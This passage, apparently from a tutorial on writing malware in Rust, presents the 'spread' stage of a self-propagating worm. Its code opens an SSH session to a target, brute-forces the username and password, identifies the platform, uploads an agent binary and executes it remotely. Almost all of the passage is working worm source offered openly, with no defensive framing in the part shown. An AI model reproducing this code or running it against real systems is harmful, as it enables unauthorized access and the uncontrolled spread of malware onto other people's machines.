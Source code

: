 ### Installation

As our worm installs itself on its first execution, we only need to launch it through SSH and let it live its own life.

```rust
fn execute_remote_agent(ssh: &Session, remote_path: &str) -> Result<(), crate::Error> {
    let mut channel_exec = ssh.channel_session()?;
    channel_exec.exec(&remote_path)?;
    let _ = consume_stdio(&mut channel_exec);

    Ok(())
}
```

Finally, putting it all together and we have our `spread` function:
```rust
pub fn spread(install_dir: PathBuf, host_port: &str) -> Result<(), crate::Error> {
    let tcp = TcpStream::connect(host_port)?;
    let mut ssh = Session::new()?;
    ssh.set_tcp_stream(tcp);
    ssh.handshake()?;

    match bruteforce(&mut ssh)? {
        Some((username, password)) => {
            println!(
                "Authenticated! username: ({}), password: ({})",
                username, password
            );
        }
        None => {
            println!("Couldn't authenticate. Aborting.");
            return Ok(());
        }
    };

    let platform = identify_platform(&ssh)?;
    println!("detected platform: {}", platform);

    let mut agent_for_platform = install_dir.clone();
    agent_for_platform.push(format!("agent.{}", platform));
    if !agent_for_platform.exists() {
        println!("agent.{} not avalable. Aborting.", platform);
        return Ok(());
    }

    println!("Uplaoding: {}", agent_for_platform.display());

    let remote_path = upload_agent(&ssh, &agent_for_platform)?;
    println!("agent uploaded to {}", &remote_path);

    execute_remote_agent(&ssh, &remote_path)?;
    println!("Agent successfully executed on remote host 🥳");

    Ok(())
}
```
